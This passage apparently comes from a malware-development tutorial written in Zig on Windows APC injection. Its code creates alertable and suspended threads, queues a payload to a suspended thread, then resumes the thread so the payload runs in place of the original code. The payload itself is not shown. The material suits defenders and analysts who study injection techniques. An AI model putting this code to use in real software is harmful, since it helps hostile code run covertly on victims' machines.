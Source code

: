 #### Method 5: SignalObjectAndWait

```zig
fn alertableFunction5(lpParameter: LPVOID) callconv(WINAPI) DWORD {
    _ = lpParameter;

    const hEvent1 = CreateEventW(null, 0, 0, null);
    const hEvent2 = CreateEventW(null, 0, 0, null);

    if (hEvent1 != null and hEvent2 != null) {
        _ = SignalObjectAndWait(hEvent1.?, hEvent2.?, INFINITE, 1); // Alertable wait
        _ = CloseHandle(hEvent1.?);
        _ = CloseHandle(hEvent2.?);
    }
    return 0;
}
```

#### Create An Alertable Thread

```zig
// Create thread that immediately enters alertable state
hThread = CreateThread(null, 0, alertableFunction1, null, 0, &dwThreadId);
if (hThread == null) {
    print("[!] CreateThread Failed With Error : {}\n", .{GetLastError()});
    return;
}
print("[+] Alertable Target Thread Created With Id : {}\n", .{dwThreadId});
```

### Suspended Thread

An alternative approach is to create a thread in a suspended state, queue the APC, then resume the thread:

```zig
// Dummy function for suspended thread
fn dummyFunction(lpParameter: LPVOID) callconv(WINAPI) DWORD {
    _ = lpParameter;

    // Some dummy code that will never execute because APC hijacks it
    var prng = std.Random.DefaultPrng.init(@intCast(std.time.timestamp()));
    const random = prng.random();
    const j = random.int(i32);
    const i = j + random.int(i32);
    _ = i;

    return 0;
}

// Create suspended thread
hThread = CreateThread(null, 0, dummyFunction, null, CREATE_SUSPENDED, &dwThreadId);
if (hThread == null) {
    print("[!] CreateThread Failed With Error : {}\n", .{GetLastError()});
    return;
}
print("[+] Suspended Target Thread Created With Id : {}\n", .{dwThreadId});

// Queue APC to suspended thread
if (!runViaApcInjection(hThread.?, &Payload)) {
    return;
}

// Resume thread - this will execute the APC instead of the original function
print("[i] Resuming Suspended Thread...", .{});
_ = ResumeThread(hThread.?);
```